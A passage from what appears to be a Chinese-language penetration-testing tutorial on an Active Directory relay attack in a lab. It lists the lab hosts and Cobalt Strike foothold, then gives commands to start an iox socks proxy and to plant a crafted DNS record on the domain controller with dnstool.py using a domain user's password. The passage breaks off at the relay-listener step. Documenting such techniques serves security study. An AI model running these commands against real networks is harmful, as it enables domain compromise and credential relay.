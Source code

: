 那么为什么说这是一个不是问题的问题呢？因为在实际利用当中我们大概率是会使用隧道来执行脚本的，那么我们的攻击机器完全可以使用 Linux 系统。  
  
0x03   
完整攻击流程  
  
  
参考资料  
  
搭建环境如下，并将入口机上线到攻击机的 CS：  
  

```
已获得普通域用户：domainuser01 / User01!@#
域控DC Windows server 2022：192.168.214.134
域内目标主机 Windows server 2022：192.168.214.135 
入口跳板主机 Windows server 2022
  192.168.214.136
  192.168.56.130 (模拟外网IP) 
攻击机 Windows 11：192.168.56.131
公网VPS Kali Linux：192.168.56.10 | 分配一个 192.168.214.137 模拟目标机器出网
```

  
  
一. 目标主机出网  
  
在目标出网的情况下可以直接在 VPS 服务器上进行监听。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  

```
iox.exe proxy -l 8080
```

  
  
2.   
向域控  
添加 DNS 解析记录  
。因为 LDAP 使用 TCP 而 DNS 查询使用 UDP （DNS 服务器一般默认支持 TCP 查询），为了实现实战中不同工具场景下更好的兼容性 ，最好是将 UDP 封装到 TCP 中传输 ，  
dnstool.py  
 已经集成了该功能，可以非常方便的直接使用。  
  

```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.137 --action modify 192.168.214.134 --tcp
＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElNVnpeR4DRjEJx1cclcqfpLIjhKPFibOgbRAxfOAicJ0dzTiakbp63ibJeg/640?wx_fmt=png&from=appmsg "")  
  
  
3.   
开启 relay 监听，因为目标主机出网因此不必指定端口。  
  
